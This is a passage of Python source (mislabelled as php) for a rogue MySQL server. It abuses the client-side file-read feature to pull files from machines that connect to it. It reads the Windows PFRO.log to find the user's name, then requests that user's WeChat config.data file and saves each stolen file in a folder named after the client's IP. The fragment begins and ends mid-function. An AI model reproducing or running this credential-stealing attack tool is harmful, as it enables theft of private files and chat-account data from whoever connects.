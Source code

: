 ```php
 if 'SET NAMES utf8' in res4:
                        conn.sendall("\x07\x00\x00\x01\x00\x00\x00\x02\x00\x00\x00")
                        res5 = conn.recv(9999)
                        if 'SET character_set_results=NULL' in res5:
                            conn.sendall("\x07\x00\x00\x01\x00\x00\x00\x02\x00\x00\x00")
                            conn.close()
                    else:
                        conn.close()
                else:
                    conn.close()
            else:
                conn.close()
        else:
            try:
                wantfile = chr(len(filename) + 1) + "\x00\x00\x01\xFB" + filename
                conn.sendall(wantfile)
                content = conn.recv(99999999)
                # print(len(content))
                conn.close()
                if len(content) > 4:
                    if 'PFRO' in filename:
                        with open(logpath + "/PFRO.log", "w") as f:
                            f.write(content)
                            f.close()
                        return True
                    else:
                        with open(logpath + "/" + filename.replace("/", "_").replace(":", ""), "w") as f:
                            f.write(content)
                            f.close()
                        return True
                else:
                    return False
            except Exception as e:
                print (e)
    except Exception as e:
        print (e)

def run():
    port = 3306
    sv = socket.socket()
    sv.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
    sv.bind(("",port))
    sv.listen(100)

    while True:
        conn, address = sv.accept()
        logpath = os.path.abspath('.') + "/log/" + address[0] + '/PFRO.log'
        if os.path.exists(logpath):
            with open(logpath, 'r')as f:
                content = f.read()
            f.close()
            content = content.replace('\n','').replace('\r','').replace(' ','').replace('\t','').replace('\00','')
            try:
                res = re.findall(r'Users\\(.*)\\', content)[0]
                username = res.split('\\')[0]
                line = 'C:/Users/' + username + '/Documents/WeChat Files/All Users/config/config.data'              
                if not os.path.exists(os.path.abspath('.') + "/log/" + address[0]+'/'+line.replace("/", "_").replace(":", "")):
                    res = mysql_get_file_content(line,conn,address)
                    if res:
```